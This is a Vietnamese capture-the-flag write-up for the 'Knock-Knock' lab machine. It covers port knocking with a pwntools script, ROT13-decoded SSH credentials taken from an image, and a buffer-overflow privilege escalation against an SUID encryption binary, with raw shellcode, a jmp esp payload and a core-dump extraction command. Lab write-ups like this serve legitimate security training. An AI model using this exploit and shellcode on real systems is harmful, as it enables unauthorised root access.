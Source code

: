 # Knock-Knock
***
Tìm được địa chỉ máy victim: `192.168.132.152`

![](./image/image-1.png)

Sử dụng nmap quét OS và version

![](./image/image-2.png)

Nmap bị chặn scan OS và version, tiếp theo ta sẽ scan port
Ta thấy chỉ thấy cổng 1337 mở

![](./image/image-3.png)

Thử netcat vào thì trả về một list chứa ba số

![](./image/image-4.png)

Nhận được 3 giá trị có vẻ như là các port
Port Knocking là một kỹ thuật để kiểm soát quyền truy cập vào một cổng bằng cách chỉ cho phép người dùng hợp pháp truy cập vào dịch vụ đang chạy trên máy chủ. Nó hoạt động theo cách mà khi thực hiện đúng trình tự kết nối, tường lửa sẽ mở cổng đã bị đóng.
Ta viết một script để kết nối

```py
#!/usr/bin/python3
from pwn import *
from itertools import permutations

def Knock_Port(host,ports):
	perms = permutations(ports)
	for perm in perms:
		for port in perm:
			try:
				print("[+] Knocking on port: " ,port)
				r = remote(host,port)
			except:
				pass
		log.info("Knocking complete")
if __name__ == '__main__':
	host = '192.168.132.152'
	ports = 1337
	r = remote(host,ports)
	port = eval(r.recvline())
	print(port)
	Knock_Port(host	, port)
```

Chạy thử script sau đó scan lại port

![](./image/image-5.png)
![](./image/image-6.png)

Truy cập trên trình duyệt , xem mã nguồn thấy không có gì đặc biệt chỉ có ảnh knocknock.jpg. 

![](./image/image-7.png)

Ta tải ảnh về máy
`wget http://192.168.132.152/knockknock.jpg`
Dùng strings thấy một thông tin đăng nhập có vẻ được mã hóa
Đây là mã caesar với ROT 13
Decode ta được: `username: Jason password: jB9jP2knf`

![](./image/image-8.png)

SSH vào ta thấy một file thực thi tfc có quyền SUID

![](./image/image-9.png)

Đây là chương trình mã hóa tập tin, đối số thứ nhất là tệp đầu vào (văn bản thuần túy) và đối số thứ hai là tệp đầu ra (văn bản mật mã), cả đầu vào và đầu ra đều phải có đuôi .tfc , tải về máy local cho tiện khai thác

![](./image/image-10.png)

Sau khi đọc IDA ta hiểu được là chương trình sẽ XOR dữ liệu đầu vào và viết vào file out.tfc. Chương trình không giới hạn dữ liệu đầu vào

![](./image/image-14.png)

Cách giải quyết: Sử dụng đầu vào là payload overflow đã mã hóa 1 lần để tạo shell với quyền SIUD
`Payload = bytes to overflow + address of jmp esp + shellcode`
***
## Tìm số byte để overflow
Số byte: 4124

![](./image/image-15.png)

## Sử dụng msfelfscan để lấy địa chỉ jmp esp

![](./image/image-13.png)

```py
shellcode = b"\xdb\xc6\xd9\x74\x24\xf4\x5a\xb8\x7e\xda\xf3\x36\x31\xc9\xb1\x0b\x83\xea\xfc\x31\x42\x16\x03\x42\x16\xe2\x8b\xb0\xf8\x6e\xea\x17\x99\xe6\x21\xfb\xec\x10\x51\xd4\x9d\xb6\xa1\x42\x4d\x25\xc8\xfc\x18\x4a\x58\xe9\x13\x8d\x5c\xe9\x0c\xef\x35\x87\x7d\x9c\xad\x57\xd5\x31\xa4\xb9\x14\x35"
payload = b'A'*4124 + b'\x93\x8e\x04\x08'  + b'\x90'*20 + shellcode
payload = payload.ljust(5000,b'A')
print(payload)
```
Do 4 'A' luôn bắt đầu bằng cùng một byte ‘def0 5bab’ trong tệp được mã hóa, Vì vậy, 'def0 5bab' có thể được sử dụng như một mẫu để xác định vị trí dữ liệu được mã hóa trong tệp core.

![](./image/image-11.png)
![](./image/image-12.png)

copy core ra file exp.tfc bỏ qua 245888byte (từ 0x3c080)
`dd if=core of=exp.tfc skip=245888 count=5001 bs=1`

![](./image/image-16.png)

Khai thác trên máy local thành công , tiến hành upload file lên server để leo quyền

![](./image/image-17.png)

## ROOTED